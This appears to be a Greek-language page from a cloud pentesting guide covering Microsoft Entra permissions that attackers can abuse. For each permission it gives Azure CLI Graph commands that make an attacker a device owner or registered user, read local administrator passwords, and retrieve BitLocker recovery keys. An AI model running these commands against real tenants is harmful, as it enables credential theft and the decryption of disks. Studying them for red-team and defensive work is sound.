 ### `microsoft.directory/devices/registeredOwners/update`

Αυτή η άδεια επιτρέπει στους επιτιθέμενους να αυτοδιορίζονται ως κάτοχοι συσκευών για να αποκτήσουν έλεγχο ή πρόσβαση σε ρυθμίσεις και δεδομένα συγκεκριμένα για τη συσκευή.
```bash
deviceId="<deviceId>"
userId="<userId>"
az rest --method POST \
--uri "https://graph.microsoft.com/v1.0/devices/$deviceId/owners/\$ref" \
--headers "Content-Type=application/json" \
--body '{"@odata.id": "https://graph.microsoft.com/v1.0/directoryObjects/$userId"}'
```
### `microsoft.directory/devices/registeredUsers/update`

Αυτή η άδεια επιτρέπει στους επιτιθέμενους να συσχετίσουν τον λογαριασμό τους με συσκευές για να αποκτήσουν πρόσβαση ή να παρακάμψουν πολιτικές ασφαλείας.
```bash
deviceId="<deviceId>"
userId="<userId>"
az rest --method POST \
--uri "https://graph.microsoft.com/v1.0/devices/$deviceId/registeredUsers/\$ref" \
--headers "Content-Type=application/json" \
--body '{"@odata.id": "https://graph.microsoft.com/v1.0/directoryObjects/$userId"}'
```
### `microsoft.directory/deviceLocalCredentials/password/read`

Αυτή η άδεια επιτρέπει στους επιτιθέμενους να διαβάσουν τις ιδιότητες των αποθηκευμένων διαπιστευτηρίων του τοπικού διαχειριστή για συσκευές που είναι συνδεδεμένες με το Microsoft Entra, συμπεριλαμβανομένου του κωδικού πρόσβασης.
```bash
# List deviceLocalCredentials
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/directory/deviceLocalCredentials"

# Get credentials
deviceLC="<deviceLCID>"
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/directory/deviceLocalCredentials/$deviceLCID?\$select=credentials" \
```
## BitlockerKeys

### `microsoft.directory/bitlockerKeys/key/read`

Αυτή η άδεια επιτρέπει την πρόσβαση σε κλειδιά BitLocker, τα οποία θα μπορούσαν να επιτρέψουν σε έναν επιτιθέμενο να αποκρυπτογραφήσει δίσκους, θέτοντας σε κίνδυνο την εμπιστευτικότητα των δεδομένων.
```bash
# List recovery keys
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/informationProtection/bitlocker/recoveryKeys"

# Get key
recoveryKeyId="<recoveryKeyId>"
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/informationProtection/bitlocker/recoveryKeys/$recoveryKeyId?\$select=key"
```
## Άλλες Ενδιαφέρουσες άδειες (TODO)

